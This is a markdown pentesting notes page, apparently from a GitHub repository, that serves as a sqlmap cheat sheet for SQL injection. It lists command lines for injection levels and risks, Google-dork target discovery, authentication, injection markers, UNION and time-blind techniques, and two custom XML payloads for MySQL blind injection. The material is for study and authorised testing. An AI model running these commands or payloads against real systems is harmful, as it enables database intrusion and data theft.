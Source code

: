 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - server-side-attack
  - sql-injection
  - blind-sql-injection
  - sqlmap
---
```

# 02 - Injection

## Payload Injection Test Levels

### Levels

Level 1 (by default) targets only basic GET and POST request parameters. Even if the flag is not specified it'll always use `--level=1` payloads to inject the URL. The amount of HTTP requests will always be less than 100.

```
$ sqlmap -u "<URL>" --level=1 -p <parameter_1>,<parameter_n>
```

Level 2 will target HTTP cookie header. The HTTP requests will be somewhere between 100 - 200.

```
$ sqlmap -u "<URL>" --level=2 -p <parameter>

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." --param-exclude="COOKIE"

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." --skip="cookies"

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." -p <parameter>
```

Level 3 will will two additional HTTP headers which are **User-Agent** and **Referer** with additional payloads to inject. The **inline query** technique is reached to this level. The HTTP requests will be somewhere between 200 - 500.

```
$ sqlmap -u "<URL>" --level=3
```

Level 4 contains more payloads for certain type of techniques and no additional HTTP header type to inject. The HTTP requests will be somewhere between 500 - 1000.

```
$ sqlmap -u "<URL>" --level=4
```

Level 5 will inject **HTTP Host** with additional payloads contains on numerous techniques. The amount of HTTP requests will be more than 1000.

```
$ sqlmap -u "<URL>" --level=5
```

### Risks

Risks 1 (by default) contains payloads that are deemed safe to test on all levels. Even if the flag is not specified it'll always use `--risks=1` payloads to inject the URL. 

```
$ sqlmap -u "<URL>" --risks=1
```

Risk 2 contains payloads that might cause denial of service (DoS) which is usually for smaller sites. However, sqlmap has mechanisms to attempt and prevent it from happening.

```
$ sqlmap -u "<URL>" --risks=2
```

From this level and beyond has a huge risk by modifying the database to perform certain tasks.

```
$ sqlmap -u "<URL>" --risks=3
```

## Information Gathering

```
$ sqlmap -u "<URL>" --check-waf --identify-waf

$ sqlmap -g "<google_dork>" [--cookies="<google_cookies_session>"] --gpage="<page_number>" --random-agent

$ sqlmap -u "<URL>" --forms
```

```
$ sqlmap -u "<URL>" --crawl=5 --threads=5 --crawl-exclude="logout" --forms --batch --answers="keep testing=Y,sitemap=Y,skip further tests=N"
```

## Authentication Methods

```
$ sqlmap -u "<URL>" --cookie="<key_1>=<value_1>;<key_n>=<value_n>"

$ sqlmap -u "<URL>" --headers="Authorization=<value>"

$ sqlmap -u "<URL>" --auth-type=<Basic | Digest | Bearer | ...> --auth-cred=<username>:<password>

$ sqlmap -u "<URL>" --auth-file=/path/to/file.pem
```

### DBMS Authentication

```
$ sqlmap -u -d <scheme>://<username>:<password>@<IP>:<PORT>/<database_name> --dbms-cred=<username>:<password>
```

## Injection Markers

Specify the parameter

```
$ sqlmap -u "<URL>" -p <parameter>"
```

Skip parameters if they contain negative heuristic results. Proceed further injection on positive heuristics. This can be used to scan multiple URLs.

```
$ sqlmap -u "<URL>" --smart

$ sqlmap -m urls.txt --smart --batch
```

 Specify a HTTP header to inject

```
$ sqlmap -u "<URL>" --headers="<headers>"
```

Specify injection markers inside parameter values (`%INJECT_HERE%` or `*`).

```
$ sqlmap -u "http[s]://<IP>/?<parameter>=%INJECT_HERE%"

$ sqlmap -u "http[s]://<IP>/?<parameter>=*"

$ sqlmap -u "http[s]://<IP>/parameter*/"
```

Setting boundaries of prefix and suffix to customize the injection.

```
$ sqlmap -u "<URL>" --prefix="'" --suffix="--"
```

## SQL Injection Techniques

### UNION-Based Query 

```
$ sqlmap -u "<URL>" --technique=U --union-cols=<number_of_columns>

$ sqlmap -u "<URL>" --technique=U --union-char="A1B2"

$ sqlmap -u "<URL>" --technique=U --union-from="<table_name>"
```

### Time-Blind Query

This is also used for blind SQL Injection method

```
$ sqlmap -u "<URL>" --technique=T --time-sec=<seconds>
```

## Filter Payloads

```
$ sqlmap -u "<URL>" --test-filter="<payload_title>"

$ sqlmap -u "<URL>" --test-skip="BENCHMARK"
```

## Customize Payloads

```
/usr/share/sqlmap/data/xml/payloads
```

https://katsuragi.medium.com/customising-sqlmap-integrating-personalised-injection-payloads-1f4a1500e33b

```xml
    <test>
        <title>MySQL XOR boolean-based blind</title>
        <stype>1</stype>
        <level>1</level>
        <risk>1</risk>
        <clause>1-8</clause>
        <where>1</where>
        <vector>"XOR(IF((SELECT/**/666/**/WHERE/**/[INFERENCE]),444,0))XOR"</vector>
        <request>
            <payload>"XOR(IF((SELECT/**/666/**/WHERE/**/[RANDNUM]=[RANDNUM]),444,0))XOR"</payload>
        </request>
        <response>
            <comparison>"XOR(IF((SELECT/**/666/**/WHERE/**/[RANDNUM]=[RANDNUM1]),444,0))XOR"</comparison>
        </response>
        <details>
            <dbms>MySQL</dbms>
        </details>
    </test>
```

https://ott3rly.com/advanced-sqlmap-customization/

```xml
	<test>
	    <title>XOR time-based blind (query SLEEP)</title>
	    <stype>5</stype>
	    <level>1</level>
	    <risk>1</risk>
	    <clause>1,2,3,8,9</clause>
	    <where>1</where>
	    <vector>[RANDNUM]'XOR(IF(NOW()=SYSDATE(),SLEEP([SLEEPTIME]),0))XOR'[RANDSTR]</vector>
	    <request>
	        <payload>[RANDNUM]'XOR(IF(NOW()=SYSDATE(),SLEEP([SLEEPTIME]),0))XOR'[RANDSTR]</payload>
	    </request>
	    <response>
	        <time>[SLEEPTIME]</time>
	    </response>
	</test>
```

- [Week 7 - Advanced SQLMap](https://www.webhackingtips.com/weekly-tips/week-7-advanced-sqlmap)

---
## References

- [Cybr: sqlmap cheat sheets to help you find SQL injections](https://cybr.com/ethical-hacking-archives/sqlmap-cheat-sheets-to-help-you-find-sql-injections/)
